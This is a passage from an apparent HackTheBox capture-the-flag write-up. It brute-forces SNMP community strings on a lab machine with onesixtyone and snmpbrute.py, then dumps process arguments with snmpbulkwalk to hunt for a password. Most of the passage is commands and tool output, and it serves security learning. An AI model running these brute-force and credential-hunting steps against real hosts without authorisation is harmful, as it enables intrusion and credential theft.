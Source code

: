 ```bash
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt 10.10.11.193
Scanning 1 hosts, 122 communities
10.10.11.193 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
10.10.11.193 [public] Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
```

But snmpbrute finds the community string `internal`
```bash
python3 snmpbrute.py -t 10.10.11.193
   _____ _   ____  _______     ____             __
  / ___// | / /  |/  / __ \   / __ )_______  __/ /____
  \__ \/  |/ / /|_/ / /_/ /  / __  / ___/ / / / __/ _ \
 ___/ / /|  / /  / / ____/  / /_/ / /  / /_/ / /_/  __/
/____/_/ |_/_/  /_/_/      /_____/_/   \__,_/\__/\___/

SNMP Bruteforce & Enumeration Script v2.0
http://www.secforce.com / nikos.vassakis <at> secforce.com
###############################################################
SNIP
Identified Community strings
        0) 10.10.11.193    internal (v2c)(RO)
        1) 10.10.11.193    public (v1)(RO)
        2) 10.10.11.193    public (v2c)(RO)
        3) 10.10.11.193    public (v1)(RO)
        4) 10.10.11.193    public (v2c)(RO)
Select Community to Enumerate [0]:^C

```

So we dump it with `snmpbulkwalk`
```bash
snmpbulkwalk -c internal -v2c 10.10.11.193|tee ~/sec/htb/machines/mentor/scans/snmp.txt
```

And foraging through all that data we can find a password provided as an argument in the cmdline
```bash
STRING: "-d -s"
HOST-RESOURCES-MIB::hrSWRunParameters.796 = STRING: "-1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
HOST-RESOURCES-MIB::hrSWRunParameters.899 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
HOST-RESOURCES-MIB::hrSWRunParameters.904 = STRING: "--foreground"
HOST-RESOURCES-MIB::hrSWRunParameters.905 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
HOST-RESOURCES-MIB::hrSWRunParameters.906 = STRING: "--no-debug"
HOST-RESOURCES-MIB::hrSWRunParameters.907 = STRING: "-n -iNONE"
HOST-RESOURCES-MIB::hrSWRunParameters.1217 = STRING: "-f -P"
HOST-RESOURCES-MIB::hrSWRunParameters.1219 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f"
HOST-RESOURCES-MIB::hrSWRunParameters.1262 = STRING: "-o -p -- \\u --noclear tty1 linux"
HOST-RESOURCES-MIB::hrSWRunParameters.1277 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.1278 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.1279 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.1341 = STRING: "-H fd:// --containerd=/run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1690 = STRING: "/usr/local/bin/login.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1755 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 5432 -container-ip 172.22.0.4 -container-port 5432"
HOST-RESOURCES-MIB::hrSWRunParameters.1771 = STRING: "-namespace moby -id 96e44c5692920491cdb954f3d352b3532a88425979cd48b3959b63bfec98a6f4 -address /run/containerd/containerd.sock"
HOST-RESOURCES-MIB::hrSWRunParameters.1863 = STRING: "-proto tcp -host-ip 172.22.0.1 -host-port 8000 -container-ip 172.22.0.3 -container-port 8000"
```